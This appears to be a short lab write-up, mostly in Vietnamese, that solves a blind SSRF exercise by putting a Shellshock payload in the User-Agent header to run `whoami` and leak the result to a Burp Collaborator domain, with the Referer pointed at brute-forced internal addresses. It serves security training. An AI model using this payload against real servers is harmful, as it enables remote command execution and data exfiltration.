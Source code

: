 ```http://user@host/path?query```
**END goal** use this functionality to perform a blind SSRF attack against an internal server in the 192.168.0.X range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.

- Vulnerable parameter:  ```Refferer header```

- Ở lab này ta không thấy có dấu hiệu gì của ```SSRF``` hay gì khác.

==>Sử dụng extension ```Collaborator-everywhere``` để tìm các dấu hiệu...

- Bước 1: Mở Burp ```Collaborator Client``` lấy payload domain:

![alt text](./img/lab6-1.png)

- Bước 2: Thay ```User-Agent``` thành:

 ```() { :; }; ping `whoami`.iawki9kzpa1w5088jni6zdoprgx7lx9m.oastify.com```

Và Refferer thành: ```http://192.168.0.X:8080/```

![alt text](./img/lab6-2.png)


- Với X ta sẽ ```brute-force``` ở Intruder sau đó vào collaborator để xem các packet.

- Bước 3: Quan sát kêt quả trong ```Burp Collaborator```:

  - Nếu thấy request tới subdomain như:

```HTTP request to: whoami.9zgyyyxn...burpcollaborator.net```

-->Nghĩa là:

    • SSRF thành công.

    • Shellshock RCE thành công.

    • Command whoami được thực thi

Kết quả được leak ra ngoài.

![alt text](./img/lab6-3.png)

==>Vậy whoami là ```peter-Dd8zdE```

